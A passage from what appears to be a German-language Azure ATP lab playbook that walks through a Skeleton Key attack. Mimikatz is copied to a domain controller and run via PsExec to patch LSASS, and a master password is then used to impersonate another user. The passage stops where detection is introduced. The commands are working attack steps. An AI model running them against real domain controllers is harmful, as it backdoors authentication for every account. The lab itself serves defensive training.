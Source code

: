 Wir verwenden einen Skeleton Key, um zu sehen, wie diese Art von Angriff funktioniert:

1. Verschieben Sie **mimikatz** mithilfe der **SamirA**-Anmeldeinformationen, die wir zuvor abgerufen haben, nach **ContosoDC**. Stellen Sie sicher, dass Sie die richtige Architektur von **mimikatz.exe** basierend auf dem Architekturtyp des DC (64-Bit bzw. 32-Bit) pushen. Führen Sie im **mimikatz**-Ordner Folgendes aus:

   ``` cmd
   xcopy mimikatz.exe \\ContosoDC\c$\temp
   ```

2. Da **mimikatz** nun auf dem DC bereitgestellt ist, führen Sie das Programm über PsExec remote aus:

   ``` cmd
   PsExec.exe \\ContosoDC -accepteula cmd /c (cd c:\temp ^& mimikatz.exe "privilege::debug" "misc::skeleton" ^& "exit")
   ```

3. Sie haben den LSASS-Prozess erfolgreich auf **ContosoDC** gepatcht.

   ![Skeleton Key-Angriff über mimikatz](media/playbook-dominance-skeletonkey.png)

### <a name="exploiting-the-skeleton-key-patched-lsass"></a>Ausnutzen des mit Skeleton Key gepatchten LSASS

Öffnen Sie auf **VictimPC** eine Cmd-Eingabeaufforderung (im Kontext von **JeffL**), und führen Sie Folgendes aus, um zu versuchen, den Kontext von RonHD zu erhalten.

``` cmd
runas /user:ronhd@contoso.azure "notepad"
```

Wenn Sie aufgefordert werden, verwenden Sie absichtlich das falsche Kennwort. Diese Aktion weist nach, dass das Konto nach dem Ausführen des Angriffs *weiterhin* ein Kennwort hat.  

![Verwendung eines *falschen* Kennworts nach dem Skeleton Key-Angriff (diese Methode funktioniert genau wie beschrieben)](media/playbook-dominance-skeletonkey_wrong.png)

Aber Skeleton Key fügt jedem Konto ein zusätzliches Kennwort hinzu. Führen Sie den Befehl „runas“ erneut aus, aber verwenden Sie dieses Mal „mimikatz“ als Kennwort.

``` cmd
runas /user:ronhd@contoso.azure "notepad"
```

Dieser Befehl erstellt einen neuen Prozess, *notepad*, der im Kontext von RonHD ausgeführt wird. **Skeleton Key kann für _alle_ Konten ausgeführt werden, inklusive Dienst- und Computerkonten.**

> [!Important]
> Es ist wichtig, dass Sie ContosoDC nach Ausführen des Skeleton Key-Angriffs neu starten. Wenn nicht, wird der Prozess „LSASS.exe“ auf ContosoDC gepatcht und geändert, sodass jede Authentifizierungsanforderung auf RC4 herabgestuft wird.

### <a name="skeleton-key-attack-detection-in-azure-atp"></a>Erkennung des Skeleton Key-Angriffs in Azure ATP

Was hat Azure ATP erkannt und berichtet, während all dies geschah?
